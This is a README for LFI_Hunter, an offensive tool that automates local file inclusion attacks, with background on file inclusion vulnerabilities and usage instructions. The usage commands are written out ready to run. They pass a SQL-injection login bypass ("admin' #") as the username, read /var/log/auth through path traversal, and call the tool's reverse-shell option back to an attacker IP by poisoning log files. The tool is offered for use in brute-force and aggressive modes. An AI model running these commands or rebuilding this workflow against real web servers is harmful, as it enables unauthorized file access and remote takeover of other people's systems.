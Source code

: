 # LFI_Hunter

##  what is LFT_Hunter ?
* LFT_Hunter tool help To atoumation file inclusion attack 
* read file and get the file in your local machine
* filter php base64 and auto decoded the data
* auto Injaction log file and get reverseshell "if can read log file"
* work with authentication login
* support not authentication as well 
#### LFI_Hunter modes 
   - Aggressive mode 
   - Burte Fource mode
   - read file mode
##  what is file inclusion vulnerability ?
* A file inclusion vulnerability is a type of web vulnerability that is most commonly found to affect web applications that rely on a scripting run time. This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic directory traversal attack, in that directory traversal is a way of gaining unauthorized file system access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in remote code execution on the web server that runs the affected web application. An attacker can use remote code execution to create a web shell on the web server, which can be used for website defacement.
### Types of Inclusion
   #### A directory traversal (or path traversal) 
-  attack exploits insufficient security validation or sanitization of user-supplied file names, such that characters representing "traverse to parent directory" are passed through to the operating system's file system API. An affected application can be exploited to gain unauthorized access to the file system. 
 #### Remote file inclusion
   - Remote file inclusion (RFI) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the          form of an HTTP or FTP URI as a user-supplied parameter to the web application.
 #### Local file inclusion
   - Local file inclusion (LFI)
 is similar to a remote file inclusion vulnerability except instead of including remote files, only local files i.e. files on the current server          can be included for execution. This issue can still lead to remote code execution by including a file that contains attacker-controlled data such as the web server's access logs. 
-----------------------------------------------------------------------------------

## More info :-
#### [file inclusion vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
#### [Directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
#### [File inclusion attacks](https://resources.infosecinstitute.com/topic/file-inclusion-attacks/)
-------------------------------------------------------------------------------------------

## How to use : 
* pip install import mechanize
* git clone https://www.github.com/jac11/LFI_Hunter.git
* cd LFI_Hunter
* chmod +x LFI_Hunter.py
* ./LFI_Hunter -h
``` .     .____ _       __  __               .                
 /     /     |       |   |  ,   . , __   _/_     ___  .___ 
 |     |__.  | .---' |___|  |   | |'  `.  |    .'   ` /   \
 |     |     |       |   |  |   | |    |  |    |----' |   '
 /---/ /     /       /   /  `._/| /    |  \__/ `.___, /    
              @jacstory                                             

usage: LFI_Hunter.py [-h] -UV VULNURL [--auth] [-F FILELIST] -C COOKIE [-B] [-R READ] [-UF USERFORM] [-PF PASSFORM] [-P PASSWORD] [-LU LOGINURL] [-U USER] [-A] [-S SHELL]

Usage: [OPtion] [arguments] [ -w ] [arguments]

options:
  -h, --help            show this help message and exit
  -UV VULNURL, --Vulnurl VULNURL
                        url Targst web
  --auth                auth mautrd web
  -F FILELIST, --filelist FILELIST
                        read fron lfi wordlsit
  -C COOKIE, --Cookie COOKIE
                        Login sesion Cookie
  -B, --base64          decode filter php base64
  -R READ, --read READ  use to read file on the traget machine
  -UF USERFORM, --UserForm USERFORM
                        add name of the HTML Form Login User
  -PF PASSFORM, --PassForm PASSFORM
                        add name of the HTML Form Login Passord
  -P PASSWORD, --password PASSWORD
                        use specific Passowrd
  -LU LOGINURL, --loginurl LOGINURL
                        add login url for auth motted
  -U USER, --user USER  use specific username
  -A, --aggress         use aggressiv mode
  -S SHELL, --shell SHELL
                        to connent reverseshell
```
-------------------------------------------------------------------------------------------------
### Command read mode :-

```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  --read /var/log/auth -S 192.168.56.1 -UF username -PF password
```
 *  < -C / --cookies >   cookie file' add the cookie in to file and give the LFI_Hunter the path of the cookie file\
 *  < -VU / --Vulnurl >  the url of the file url "http://web.com/file="
 *  < --auth >           login the web from terminal
 *  < -LU / --loginurl>  add login url 
 *  < -U / --user >      add user name
 *  < -P / --password >  add the password 
 *  < -R / --read >      add the name of the to read from the website true the directory traversal 
 *  < -S / --shell >     connect auto reverse shell " if can read log files same like "/var/log/auth.log or /proc/sealf/envertion"
 *  < -UF / --USERFORM > if the field of username have different name so to can past in username give the field name after -UF 
 *  < -PF/ --PASSFORM  > if the field of password have different name so to can past in password give the fieldname after -PF
------------------------------------------------------------
### Command Agreesiv mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password  -A
```
*  < -A / --aggress>  to user aggressive mode "for this mode LFI_Hunter use some of payload and comparison between length  response come from web site
the big length mine have date we want read it '
### Command brute force mode  :-
```
./LFI_Hunter.py  -C cookie -UV http://192.168.56.115/sea.php?file=  --auth -LU http://192.168.56.115/atlantis.php --user "admin' #" --password password
```
* brute force mode try payload untill can read file if can read it LFI_Hunter will break and give you information about the file

### Notes :
* all mode can run with authentication or not authentication as per your situation
* Cookies is requride 
* < -F / --filelist > LFI_Hunter have default wordlist to use for Brute force if you try your own list give -F and the path of your list
* < -B /--baes64 > To use php filtter decode64 'LFI_Hunter will decode the data to asscii auto 

### ScreenShot
 <img src = "images/2.gif" width=400> <img src = "images/7.gif" width=400>  
### Connect
* jac11devel@gmail.com
* thank you 
